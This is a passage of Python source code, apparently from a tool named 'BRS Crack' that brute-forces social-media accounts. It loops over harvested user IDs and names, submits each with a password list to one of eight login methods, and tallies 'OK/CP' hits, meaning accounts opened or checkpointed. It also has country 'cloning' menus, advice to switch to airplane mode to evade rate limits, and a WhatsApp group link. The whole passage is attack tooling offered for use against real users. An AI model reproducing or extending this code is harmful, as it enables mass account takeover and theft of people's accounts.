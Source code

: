                     total_ids = str(len(fo))
                    print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mTotal id : \033[1;32m'+total_ids+f' ')
                    print(" \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mBRS Crack Has Been Running \n \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mUse Airplane mode after 3 minutes ")
                    linex()
                    for user in fo:
                        ids,names = user.split('|')
                        passlist = plist
                        if mthd in ['1','01']:
                            crack_submit.submit(api1,ids,names,passlist)
                        elif mthd in ['2','02']:
                            crack_submit.submit(api2,ids,names,passlist)
                        elif mthd in ['3','03']:
                            crack_submit.submit(api3,ids,names,passlist)
                        elif mthd in ['4','04']:
                            crack_submit.submit(api4,ids,names,passlist)
                        elif mthd in ['5','05']:
                            crack_submit.submit(api5,ids,names,passlist)
                        elif mthd in ['6','06']:
                            crack_submit.submit(api6,ids,names,passlist)
                        elif mthd in ['7','07']:
                            crack_submit.submit(api7,ids,names,passlist)
                        elif mthd in ['8','08']:
                            crack_submit.submit(api8,ids,names,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
  
            elif xd in ['2','02']:
                                clear()
                                print(' \033[1;32m[\033[1;37m1\033[1;32m] \033[1;37mPakistan cloning\n \033[1;32m[\033[1;37m2\033[1;32m] \033[1;37mBangladesh cloning\n \033[1;32m[\033[1;37m3\033[1;32m] \033[1;37mAfghanistan cloning\n \033[1;32m[\033[1;37m4\033[1;32m] \033[1;37mIndia cloning\n \033[1;32m[\033[1;37m0\033[1;32m] \033[1;37mBack menu')
                                linex()
                                x=input(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mChoose: ')
                                if x in ['1','01']:
                                        pak()
                                elif x in ['2','02']:
                                        bd()
                                elif x in ['3','03']:
                                        afg()
                                elif x in ['4','04']:
                                        ind()        
                     
            elif xd in ['3','03']:
                mm()
                #create()
                #dz._login()
                exit()
            elif xd in ['4','04']:
                Create()
            elif xd in ['5','05']:
                 os.system('xdg-open https://chat.whatsapp.com/JJfccbKpGu9BChyGH7GoLA')
            elif xd in ['0','00']:
                exit(' Thanks for use 🥰 ')
            else:
                exit(' Option not found in menu...')
        